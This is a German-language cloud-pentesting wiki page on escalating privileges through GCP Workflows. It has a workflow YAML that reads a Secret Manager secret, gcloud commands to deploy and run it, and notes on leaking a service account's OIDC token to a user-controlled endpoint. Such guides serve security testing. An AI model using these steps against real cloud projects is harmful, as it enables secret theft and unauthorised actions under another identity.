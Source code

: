# GCP - Workflows Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Workflows

Grundinformationen:

{{#ref}}
../gcp-services/gcp-workflows-enum.md
{{#endref}}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Soweit ich weiß, ist es nicht möglich, eine Shell mit Zugriff auf den Metadaten-Endpunkt zu erhalten, der die SA-Anmeldeinformationen des SA enthält, der an einen Workflow angehängt ist. Es ist jedoch möglich, die Berechtigungen des SA auszunutzen, indem man die Aktionen hinzufügt, die innerhalb des Workflows ausgeführt werden sollen.

Es ist möglich, die Dokumentation der Connectoren zu finden. Zum Beispiel ist dies die [**Seite des Secretmanager-Connectors**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In der Seitenleiste sind mehrere andere Connectoren zu finden.

Und hier finden Sie ein Beispiel für einen Connector, der ein Geheimnis ausgibt:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: "${str_secret}"
```
Aktualisierung über die CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Wenn Sie einen Fehler wie `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` erhalten, **warten Sie eine Minute und versuchen Sie es erneut**.

Wenn Sie keinen Webzugang haben, ist es möglich, die Ausführung eines Workflows mit folgendem Befehl auszulösen und zu sehen:
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
> [!CAUTION]
> Sie können auch die Ausgabe vorheriger Ausführungen überprüfen, um nach sensiblen Informationen zu suchen.

Beachten Sie, dass selbst wenn Sie einen Fehler wie `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` erhalten, weil Sie diese Berechtigung nicht haben, der Workflow generiert wurde.

### Leak OIDC-Token (und OAuth?)

Laut [**den Dokumenten**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) ist es möglich, Workflow-Schritte zu verwenden, die eine HTTP-Anfrage mit dem OAuth- oder OIDC-Token senden. Allerdings muss die HTTP-Anfrage mit dem Oauth-Token, wie im Fall von [Cloud Scheduler](gcp-cloudscheduler-privesc.md), an den Host `.googleapis.com` gerichtet sein.

> [!CAUTION]
> Daher ist es **möglich, das OIDC-Token durch Angabe eines vom Benutzer kontrollierten HTTP-Endpunkts zu leaken**, aber um das **OAuth**-Token zu leaken, benötigen Sie **einen Bypass** für diesen Schutz. Sie können jedoch weiterhin **jede GCP-API kontaktieren, um im Namen des SA Aktionen durchzuführen**, entweder über Connectoren oder HTTP-Anfragen mit dem OAuth-Token.

#### Oauth
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Mit dieser Berechtigung anstelle von `workflows.workflows.create` ist es möglich, einen bereits bestehenden Workflow zu aktualisieren und die gleichen Angriffe durchzuführen.

{{#include ../../../banners/hacktricks-training.md}}
